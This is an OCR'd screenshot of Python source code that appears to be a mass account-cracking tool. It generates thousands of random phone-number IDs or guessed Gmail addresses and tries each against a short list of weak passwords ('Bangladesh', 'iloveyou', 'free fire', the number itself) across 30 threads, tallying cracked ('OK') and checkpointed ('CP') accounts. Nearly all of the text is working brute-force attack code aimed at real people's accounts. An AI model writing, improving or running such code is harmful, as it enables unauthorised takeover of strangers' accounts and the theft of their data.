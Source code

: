                 try:
                        limit = int(input('\033[1;31m example: 2000, 3000, 5000, 10000\n\033[1;37m put limit: '))
                except ValueError:
                        limit = 5000
                for nmbr in range(limit):
                        nmp = ''.join(random.choice(string.digits) for _ in range(8))
                        user.append(nmp)
                with tred(max_workers=30) as usman:     
                        clear()
                        tl = str(len(user))
                        print(' Total account : \033[1;32m'+tl)
                        print(f'\033[1;37m Choice code ..:\033[1;32m '+code)
                        print(f'\033[1;37m \x1b[38;5;208mUse flight mode for speed up\033[1;97m')
                        linex()
                        for psx in user:
                                ids = code+psx
                                passlist = [psx,ids,'Bangladesh','bangladesh','i love you','iloveyou','free fire','freefire']
                                usman.submit(rndm,ids,passlist)
                print('\033[1;37m')
                linex()
                print(' The process has completed')
                print(' Total OK/CP: '+str(len(oks))+'/'+str(len(cps)))
                linex()
                input(' Press enter to back ')
                os.system('python akram.py')
def gmail():
                os.system('rm -rf .re.txt')
                clear()
                print('\033[1;37m example: muhammad, ali, sajjad, faizan\033[1;97m')
                linex()
                first = input(' Put first name: ')
                linex()
                print('\033[1;37m example: khan, ahmad, ali \033[1;97m')
                linex()
                last = input(' Put last name: ')
                linex()
                print(' Example: @gmail.com , @yahoo.com etc...')
                linex()
                domain = input(' domain: ')
                linex()
                try:
                        limit=int(input(' Put limit: '))
                except ValueError:
                        limit = 5000
                linex()
                print(' Getting gmails...')
                lists = ['3','4']
                for xd in range(limit):
                        lchoice = random.choice(lists)
                        if '3' in lchoice:
                                mail = ''.join(random.choice(string.digits) for _ in range(3))
                                open('.re.txt','a').write(first.lower()+last.lower()+mail+domain+'|'+first+' '+last+'\n')
                        else:
                                mail = ''.join(random.choice(string.digits) for _ in range(4))
                                open('.re.txt','a').write(first.lower()+last.lower()+mail+domain+'|'+first+' '+last+'\n')
                        fo = open('.re.txt', 'r').read().splitlines()
                with tred(max_workers=30) as usman:
                        total = str(len(fo))
                        clear()
                        print(' Total account : \033[1;32m'+total)
                        print("\033[1;37m \x1b[38;5;208mUse flight mode for speed up\033[1;37m")
                        linex()
                        for user in fo:
                                ids,names = user.split('|')